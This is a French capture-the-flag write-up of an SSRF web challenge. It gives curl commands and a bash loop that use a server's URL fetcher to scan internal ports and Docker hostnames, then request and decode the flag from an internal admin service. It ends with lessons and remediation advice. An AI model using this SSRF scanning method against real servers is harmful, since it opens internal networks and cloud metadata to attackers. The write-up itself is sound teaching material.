





- **Catégorie :** Web — medium
- **Points :** 200 (dynamiques, 200 → 100)
- **Créateur :** KodjoDoDjango
- **Auteur du write-up :** 3ch0
- **Flag :** `EthACTF{ssrf_goes_internal}`

---

## Énoncé

> Un petit service web propose un « vérificateur d'URL » : donnez-lui une URL et le serveur la récupère pour vous. Il existe un service interne (le flag y est caché) que vous ne pouvez pas joindre directement depuis votre machine. Trouvez le moyen de le faire chercher par le serveur et récupérez le flag.

Le nom **SéSéReFe** se lit « SSRF » → **Server-Side Request Forgery**. L'énoncé décrit la vulnérabilité mot pour mot : le serveur va chercher une URL *à ta place*, et il faut l'utiliser pour atteindre un service que toi tu ne peux pas joindre.

Cible : `https://chal-4-seserefe.ctf.esig.tg`

---

## 1. Reconnaissance

La page d'accueil expose un formulaire :

```html
<form method="post" action="/fetch">
    <input type="text" name="url" placeholder="http://example.com">
    <button type="submit">Récupérer</button>
</form>
```

Donc : `POST /fetch` avec un champ `url`. Le serveur récupère l'URL et renvoie le contenu.





### Test de référence (URL externe)

```bash
B="https://chal-4-seserefe.ctf.esig.tg"
curl -s -X POST "$B/fetch" --data-urlencode "url=http://example.com"
```

Réponse :

```html
<h3>Résultat de la récupération</h3><pre>%3C!doctype%20html%3E...Example%20Domain...</pre>
```



Deux enseignements :
- Le serveur effectue bien la requête **côté serveur** (SSRF confirmé).
- Le contenu récupéré est renvoyé **URL-encodé** à l'intérieur d'un bloc `<pre>...</pre>` (il faudra le décoder pour lire proprement).

### Test de filtrage (localhost)

```bash
curl -s -X POST "$B/fetch" --data-urlencode "url=http://127.0.0.1/"
curl -s -X POST "$B/fetch" --data-urlencode "url=http://localhost/"
```

Réponse :

```
Erreur lors de la récupération : HTTPConnectionPool(host='127.0.0.1', port=80):
... [Errno 111] Connection refused
```



Points clés :
- **Aucun filtre anti-SSRF** : `127.0.0.1` et `localhost` sont acceptés (pas de blacklist). Ce n'est *pas* un challenge de bypass de filtre.
- Le message d'erreur trahit la stack : **Python `requests`** (`HTTPConnectionPool`). Utile pour lire les erreurs.
- « Connection refused » = rien n'écoute sur le port 80 de localhost. Le service interne est donc **ailleurs** : un autre port, ou un autre conteneur.

---

## 2. Analyse : où est le service interne ?

Dans une infra Docker (typique de ce genre de plateforme), l'app web et le « service interne » tournent dans des conteneurs séparés sur le même réseau. Deux conséquences :

- `127.0.0.1` depuis le conteneur web pointe sur **lui-même**, pas sur le service interne.
- Les autres conteneurs sont joignables **par leur nom de service** (ex. `internal`, `api`, `admin`…), résolu par le DNS interne de Docker.

Stratégie : scanner via le SSRF (a) les **ports courants** de `127.0.0.1`, et (b) une liste de **noms de conteneurs** plausibles, en filtrant les « connection refused » / erreurs de résolution pour ne garder que les réponses utiles.

```bash
B="https://chal-4-seserefe.ctf.esig.tg"
f(){ r=$(curl -s -X POST "$B/fetch" --data-urlencode "url=$1");
     echo "$r" | grep -qi "refused\|resolve\|nodename\|Name or service\|timed out" \
     || { echo "=== $1 ==="; echo "$r" | head -c 300; echo; }; }

for p in 5000 8000 8080 3000 5001 8888 9000 1337 8081 8443 4000 7000 5555 8501; do
  f "http://127.0.0.1:$p/"
done
for h in internal internal-api flag flag-service secret api backend service private admin; do
  f "http://$h/"; f "http://$h:5000/"; f "http://$h:8080/"
done
```

Résultats retenus :

```
=== http://127.0.0.1:5000/ ===
<pre>%3C!DOCTYPE%20html%3E...Vérificateur d'URL...</pre>   ← c'est l'app elle-même

=== http://admin:8080/ ===
<pre>Service%20interne.%20Try%20/flag</pre>                ← LE service interne
```

- `127.0.0.1:5000` renvoie la page « Vérificateur d'URL » → c'est l'application web elle-même (Flask, port 5000).
- **`http://admin:8080/`** répond `Service interne. Try /flag` → conteneur cible trouvé, et il nous donne même le chemin.

---

## 3. Exploitation

On demande au serveur de récupérer `/flag` sur le service interne, puis on décode le contenu URL-encodé :

```bash
B="https://chal-4-seserefe.ctf.esig.tg"
curl -s -X POST "$B/fetch" --data-urlencode "url=http://admin:8080/flag" \
 | python3 -c "import sys,urllib.parse,re; t=sys.stdin.read(); \
   m=re.search(r'<pre>(.*)</pre>', t, re.S); \
   print(urllib.parse.unquote(m.group(1)) if m else t)"
```

Sortie :

```
EthACTF{ssrf_goes_internal}
```



---

## 4. Flag

```
EthACTF{ssrf_goes_internal}
```

---

## 5. Leçons

- Un « vérificateur / récupérateur d'URL » qui va chercher une ressource **côté serveur** est un candidat SSRF évident : on l'utilise pour atteindre ce qui n'est accessible que depuis le serveur (localhost, réseau interne, métadonnées cloud…).
- Ici, **aucun filtre** : la difficulté n'était pas le bypass mais l'**énumération** du bon hôte/port. En Docker, penser aux **noms de conteneurs** (DNS interne) autant qu'à `127.0.0.1`, et scanner plusieurs ports.
- Toujours tester une URL externe d'abord pour comprendre le **format de sortie** (ici, contenu URL-encodé dans `<pre>`) avant d'interpréter les résultats.
- Le service interne lui-même a fuité le chemin (`Try /flag`) — lire attentivement chaque réponse fait gagner du temps.

### Remédiation
- Valider/whitelister les URL autorisées (schéma, hôte), refuser les IP privées/loopback et la résolution vers le réseau interne.
- Isoler le service interne (auth, pas de route « flag » ouverte), segmenter le réseau, et ne pas renvoyer tel quel le contenu récupéré.

_**— 3ch0**_
